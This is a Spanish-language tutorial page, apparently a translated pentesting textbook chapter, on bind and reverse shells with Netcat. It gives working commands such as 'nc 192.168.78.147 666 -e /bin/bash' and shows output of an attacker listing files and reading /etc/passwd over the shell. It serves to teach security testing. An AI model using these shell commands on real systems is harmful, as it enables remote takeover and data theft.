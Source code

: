 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Invertir y vincular shells(Reverser/Bind Shells)

Un _shell_ es una utilidad que actúa como interfaz entre un usuario y el sistema operativo.&#x20;

En Linux existen varios entornos de shell, como Bash, ksh y tcsh.En Windows el shell es el símbolo del sistema , que se invoca mediante cmd.exe.

Windows PowerShell es un shell de Microsoft más nuevo que combina la antigua funcionalidad CMD con un nuevo conjunto de instrucciones de scripting/cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.

Con un shell de enlace, un atacante abre un puerto o un escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema y ejecutar comandos y manipular aún más a la víctima.&#x20;

<img src="../../../.gitbook/assets/file.excalidraw.svg" alt="" class="gitbook-drawing">

Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto y la víctima inicia una conexión con el sistema atacante. La Figura 8-2 ilustra un caparazón inverso.

Muchas herramientas le permiten crear shells de enlace e inversión desde un host comprometido. Algunos de los más populares son el módulo Meterpreter en Metasploit y Netcat. Netcat es una de las mejores y más versátiles herramientas para probadores de lápiz porque es liviana y muy portátil. Incluso puede ver esto explicado en los primeros párrafos de la página de manual **de netcat** , como se muestra en el Ejemplo 8-1.

_La herramienta Netcat._

```
NAME
                 nc - TCP/IP swiss army knife

SYNOPSIS
             nc [-options] hostname port[s] [ports] ...
             nc -l -p port [-options] [hostname] [port]

DESCRIPTION
             netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven by other programs and scripts. At the same time, it
is a feature-rich network debugging and exploration tool, since it can
create almost any kind of connection you would need and has several
interesting built-in capabilities. Netcat, or "nc" as the actual
program is named, should have been supplied long ago as another one
of those cryptic but standard Unix tools.

In the simplest usage, "nc host port" creates a TCP connection to the
given port on the given target host. Your standard input is then sent
to the host, and anything that comes back across the connection is
sent to your standard output. This continues indefinitely, until the
network side of the connection shuts down. Note that this behavior is
different from most other applications which shut everything down and
exit after an end-of-file on the standard input.

Netcat can also function as a server, by listening for inbound
connections on arbitrary ports and then doing the same reading and
writing. With minor limitations, netcat doesn't really care if it
runs in "client" or "server" mode -- it still shovels data back and
forth until there isn't anymore left. In either mode, shutdown can be
forced after a configurable time of inactivity on the network side.

And it can do this via UDP too, so netcat is possibly the "udp
telnet-like" application you always wanted for testing your UDP-mode
servers. UDP, asthe "U" implies, gives less reliable data transmission
than TCP connections and some systems may have trouble sending large
amounts of data that way, but it's still a useful capability to have.

You may be asking "why not just use telnet to connect to arbitrary
ports?" Valid question, and here are some reasons. Telnet has the
"standard input EOF" problem, so one must introduce calculated delays
in driving scripts to allow network output to finish. This is the
main reason netcat stays running until the network side closes.
Telnet also will not transfer arbitrary binary data, because certain
characters are interpreted as telnet options and are thus removed from
the data stream. Telnet also emits some of its diagnostic messages to
standard output, where netcat keeps such things religiously separated
from its output and will never modify any of the real data in
transit unless you really want it to. And of course, telnet is
incapable of listening for inbound connections, or using UDP instead.
Netcat doesn't have any of these limitations, is much smaller and
faster than telnet, and has many other advantages.

```

Veamos Netcat en acción. Un atacante podría usar el comando **nc -lvp 1234 -e /bin/bash** en el sistema comprometido (192.168.78.6) para crear un escucha en el puerto **1234** y ejecutar ( **-e** ) el shell Bash ( **/bin/bash** ). Esto se demuestra en el ejemplo 8-2. Netcat utiliza entrada estándar (stdin), salida estándar (stdout) y error estándar (stderr) para el socket IP.

C_reación de un shell de enlace utilizando Netcat._

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...

```

**NOTA** En los sistemas Windows, puede ejecutar la utilidad del símbolo del sistema cmd.exe con el comando **nc -lvp 1234 -e cmd.exe** Netcat.

Como se muestra en el Ejemplo 8-3, en el sistema atacante (192.168.78.147), se utiliza el comando **nc -nv 192.168.78.6 1234 para conectarse con la víctima.** Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando **ls** y se muestran tres archivos en la pantalla del atacante.

_**Ejemplo 8-3**_ _: Conexión al Bind Shell mediante Netcat_

```
root@kali:~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

Cuando el atacante se conecta, el mensaje resaltado en el ejemplo 8-4 se muestra en el sistema de la víctima.

_**Ejemplo 8-4**_ _: un atacante conectado a una víctima mediante un Bind Shell_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

Uno de los desafíos de usar shells de enlace es que si el sistema de la víctima está detrás de un firewall, el puerto de escucha podría estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.

El ejemplo 8-5 muestra cómo crear un shell inverso usando Netcat. En este caso, para crear un shell inverso, puede usar el comando **nc -lvp 666** en el sistema atacante para escuchar un puerto específico (puerto 666 en este ejemplo).

_**Ejemplo 8-5**_ _: creación de un oyente en el sistema atacante para crear un shell inverso usando Netcat_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 

```

Luego, en el host comprometido (la víctima), puede usar el comando **nc 192.168.78.147 666 -e /bin/bash** para conectarse al sistema atacante, como se demuestra en el Ejemplo 8-6.

_**Ejemplo 8-6**_ _: Conexión al sistema atacante (Shell inverso) mediante Netcat_

```
omar@jorel:~$ nc 192.168.78.147 666 -e /bin/bash
```

Una vez que el sistema víctima (192.168.78.6) esté conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos, como se muestra en las líneas resaltadas en el Ejemplo 8-7.

_**Ejemplo 8-7**_ _: Ejecutar comandos en el sistema de la víctima a través de un Shell inverso_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

<output omitted for brevity>

```
